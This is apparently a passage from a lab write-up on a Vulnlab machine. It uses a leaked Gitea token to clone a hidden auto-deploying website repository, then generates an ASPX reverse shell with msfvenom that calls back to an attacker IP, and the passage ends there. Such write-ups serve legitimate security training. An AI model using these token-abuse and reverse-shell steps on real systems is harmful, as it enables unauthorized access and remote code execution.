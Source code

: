 It seems that there is another repository that was returned that wasn't originally in the GITEA interface, being `website`. This repo seems to be unpublished from the GITEA instance, as if you attempt to access it on the web server it will return a 404.

Though we aren't able to see this repository, we can assume that if we were authenticated as `ellen.freeman`, we would be able to see it on our end. We can try to configure our Git authorization locally using the access token and download the repository remotely.

```
└─$ git config --global http.extraHeader "Authorization: token $GITEA_ACCESS_TOKEN"

└─$ git clone http://10.10.69.193:3000/ellen.freeman/website                       
Cloning into 'website'...
remote: Enumerating objects: 165, done.
remote: Counting objects: 100% (165/165), done.
remote: Compressing objects: 100% (128/128), done.
remote: Total 165 (delta 35), reused 153 (delta 31), pack-reused 0
Receiving objects: 100% (165/165), 7.16 MiB | 1.00 MiB/s, done.
Resolving deltas: 100% (35/35), done.
```

It seems that there is a file within this denoted as `readme.md` and it contains the following information.

```
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver
```

This indicates to me that any changes to this repository automatically change the website that is being hosted from it. If you'll look at the `index.html` page that is within this directory, you'll find the HTML of the website we were previously on. This also contains the assets folder that we previously did not have access to.

With what this readme note is telling us, if we are able to commit to this repository, it should automatically deploy to the website on port 80. Thus, if we are able to add a reverse shell to this website, we may be able to receive a session on the website.

In that case, we'll create a reverse shell with [MSFVenom](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom). I've found more luck utilizing an ASPX reverse shell on websites that run IIS, so we'll go with that extension.

One thing you can do to confirm our above theory is attempt to access `changelog.txt` on the main website. It should return the same text file that we have in our cloned git repository locally.

![](/images/vulnlab/lock-vl/g.png)

# RCE via Git Commits

So let's start by creating an ASPX reverse shell with MSFVenom.

```
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.0.173 LPORT=9001 -f aspx > daz.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2906 bytes
```
